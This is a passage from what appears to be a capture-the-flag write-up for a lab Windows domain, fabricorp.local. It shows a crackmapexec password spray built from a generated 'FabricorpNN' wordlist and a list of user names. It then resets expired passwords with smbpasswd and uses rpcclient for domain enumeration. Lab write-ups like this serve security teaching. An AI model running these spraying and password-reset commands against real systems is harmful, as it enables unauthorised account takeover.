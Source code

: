But this runs for a while and does not return any wins... Maybe something more targeted? Looking at the filenames from the print jobs shows `Fabricorp01`. Try that as a password spray over all the users:

```bash
for i in $(seq 1 99); do printf "Fabricorp%02d\n" $i >> pass.txt; done
echo 'bhult'         >> users.txt
echo 'tlavel'        >> users.txt
echo 'pmerton'       >> users.txt
echo 'bnielson'      >> users.txt
echo 'sthompson'     >> users.txt
echo 'administrator' >> users.txt
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u users.txt -p pass.txt
```

Running this generates a few hits for `Fabricorp01`! Here is a less noisy capture of that:

![smb1](./fuse/smb1.png)

It seems like the following users have a default password that needs to be changed:

```
fabricorp.local\bnielson:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Some searching for this error leads to the following:

- https://twitter.com/vysecurity/status/1313511859224547334/photo/1
- https://serverfault.com/questions/215983/change-windows-ad-password-from-linux

It says that is should be possible to change the password for these users from Linux:

```bash
sudo sh -c 'echo "10.10.10.193 fabricorp.local" >> /etc/hosts' # run if not dnoe already
smbpasswd -r fabricorp.local -U bhult
```

This works! However, trying to authenticate using this password throws the error again? Trying this a few times seems to show that something is resetting the password back to `Fabricorp01` every couple of minutes... To make things even more annoying, the DC remembers password history so each password given for the user account reset must be a unique one... This means the best kind of connection is one that maintains a kerberos token after authentication that is re-used for authentication. Use `rpcclient` to enumerate the domain:

```bash
smbpasswd -r fabricorp.local -U bhult # change password from Fabricorp01 to Fabricorp02
rpcclient -U 'bhult%Fabricorp02' 10.10.10.193 # !!! move quickly to login !!!
```

From here, walk through the following commands to enumerate the domain:
